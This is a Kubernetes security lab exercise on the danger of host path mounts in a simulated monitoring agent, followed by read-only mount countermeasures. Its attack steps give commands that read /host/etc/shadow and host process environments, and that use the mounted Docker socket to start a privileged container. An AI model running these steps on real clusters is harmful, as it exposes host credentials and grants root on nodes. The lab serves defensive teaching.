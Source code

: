 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Read-only host mounts"
draft = false
toc = true
weight = 15
+++

### Introduction
In this exercise, we cover:

 - The risk of host mounts
 - How to use read-only mounts if they suffice

### Setup
In this example, we'll just directly use a shell inside the app.
Our example app will be a simulated monitoring agent mounting the same paths as the [Datadog DaemonSet](https://docs.datadoghq.com/agent/kubernetes/daemonset_setup/?tab=k8sfile):
```
volumeMounts:
  - {name: dockersocket, mountPath: /var/run/docker.sock}
  - {name: procdir, mountPath: /host/proc, readOnly: true}
  - {name: cgroups, mountPath: /host/sys/fs/cgroup, readOnly: true}
  - {name: s6-run, mountPath: /var/run/s6}
  - {name: logpodpath, mountPath: /var/log/pods}
  ## Docker runtime directory, replace this path with your container runtime
  ## logs directory, or remove this configuration if `/var/log/pods`
  ## is not a symlink to any other directory.
  - {name: logcontainerpath, mountPath: /var/lib/docker/containers}
```

We'll also mount `/etc` itself for extra fun.

Let's deploy our simulated agent:

```
kubectl apply -f https://securek8s.dev/agent/base.yaml
```

<!-- TODO: note that you read env vars with this mount, even if read-only. Also, the Docker socket—scream! -->

### Attack
With our power to execute commands, we'll see what types of files we
could modify, and what sorts of access they could provide.

Find a pod:
```
kubectl get po -n mounts
```

Then get into it:
```
kubectl exec -it -n mounts <pod> bash
```

Now, try some host modifications and information gathering attempts:

```
touch /host/etc/flag
cat /host/etc/shadow
ls /host/proc/
cat /host/proc/*/cmdline
cat /host/proc/1/cmdline
ls -alh /host/proc/1/environ
```

Note that our host info is different from our container's:

```
cat /proc/1/cmdline
```

What else can you come up with?

Note that this deployment is extra-dangerous because it mounts the Docker socket.
That's a great way for your container to have effectively root privileges on the node.

Let's see what we can do:

```
apt-get update
apt-get install -y curl
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
./docker/docker run --rm -it --privileged ubuntu
```

Use ctrl-D to exit once you've finished poking around.
(Now you're back in the pod.)

Let's use some of the other mounts. For instance, we could spy on other containers' logs:
```
ls /var/log/pods
```

Pick a pod you're interested in, then see what you can learn from the logs.

### Countermeasure
We can:

 - Remove some mount paths our application doesn't need,
 - Mark some of our mounts read-only, and
 - Mount more specific paths,

depending on the access we actually need.

This can require a bit of application knowledge, so is often best done with the team that maintains or operates the app.

Let's see what our improved deployment changes:

```
kubectl diff -f https://securek8s.dev/agent/improved.yaml
```

Then let's deploy it:

```
kubectl apply -f https://securek8s.dev/agent/improved.yaml
```

Find a pod:
```
kubectl get po -n mounts
```

Then get into it:
```
kubectl exec -it -n mounts <pod> bash
```

### Attack effects after patching
You can't mess with stuff if you can't write to it, or
find out information you can't read!

Note that the Docker socket [still **does** work](https://news.ycombinator.com/item?id=17983623) despite us mounting it read-only:

```
apt-get update
apt-get install curl
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
./docker/docker run --rm -it --privileged ubuntu
```

If we try some of the same manipulations we tried earlier, they'll fail.

### How to use it yourself
If you use an application that needs to know something about the host,
you might need to mount a host path.

You can minimize the risk that such mounts poses by:

 - marking them read-only, and
 - minimizing the mount surface to just what's required.

Note, when you're slimming down mounts: container runtimes will sometimes _create_ files on your host
if they do not exist, which can be a problem if you want to mount
a path that might not exist.
This is particularly annoying when you try to mount a specific file
and the runtime creates a directory.

### Next up
We'll pivot to network policies in the next exercise:

[**Network policies**](../20-netpol)
